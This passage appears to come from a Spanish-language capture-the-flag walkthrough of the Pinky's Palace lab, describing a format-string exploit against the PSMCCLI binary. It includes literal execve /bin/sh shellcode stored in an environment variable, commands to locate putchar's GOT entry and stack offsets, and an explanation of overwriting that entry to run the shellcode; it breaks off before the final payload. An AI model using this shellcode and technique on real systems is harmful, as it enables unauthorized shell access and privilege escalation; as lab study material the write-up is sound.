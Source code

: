 - Encontrar la dirección en memoria de esa variable de entorno

Utilizamos [getenvaddr.c](https://raw.githubusercontent.com/Partyschaum/haxe/master/getenvaddr.c)

```bash
gcc getenvaddr.c -o getenvaddr
chmod +x getenvaddr
```

#### Recolección de datos

- Determinar direcciones

```bash
# Se ha colocado en la variable de entorno y se verificó su dirección
pinksecmanagement@pinkys-palace:/tmp$ export SCODE=$(echo -ne "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")
pinksecmanagement@pinkys-palace:/tmp$ ./getenvaddr SCODE /usr/local/bin/PSMCCLI
SCODE will be at 0xbffffe4b

# Dirección de la función a sobreescribir (puntero en la GOT de putchar)
pinksecmanagement@pinkys-palace:/tmp$ objdump -R /usr/local/bin/PSMCCLI | grep putchar 
0804a01c R_386_JUMP_SLOT   putchar@GLIBC_2.0
```

- Determinar el offset en la pila

```bash
# Offset en la pila (determinación con marcadores)
#Ejemplo bueno tenemos los valores ASCII de A y B exactos
/usr/local/bin/PSMCCLI AAAABBBB%134\$x%135\$x
[+] Args: AAAABBBB4141414142424242

# En caso de los valores ASCII de A y B no coincidan, debemos ajustar el offset mediante padding
/usr/local/bin/PSMCCLI AAAABBBBC%134\$x%135\$x
[+] Args: AAAABBBBC4241414143424242

# En este caso no es necesario hacer padding
```

| Stack offset | Contenido           | Interpreta `printf` como      |
|--------------|---------------------|-------------------------------|
| 134          | 0x41414141 ("AAAA") | `%134$x` → muestra `41414141` |
| 135          | 0x42424242 ("BBBB") | `%135$x` → muestra `42424242` |

Esto confirma que los primeros 8 bytes del input (donde pondremos las direcciones a sobreescribir) están en esas posiciones, por lo que ahora podemos usar `%134$hn` y `%135$hn` para escribir valores a esas direcciones.

#### Creando el payload

El objetivo es sobrescribir la entrada en la GOT de `putchar` (0x0804a01c) con la dirección donde hemos colocado la shellcode en la pila.

Esto provoca que cuando se llame a `putchar()` en lugar de ir a la función de libc, irá a la dirección en memoria de nuestro shellcode.
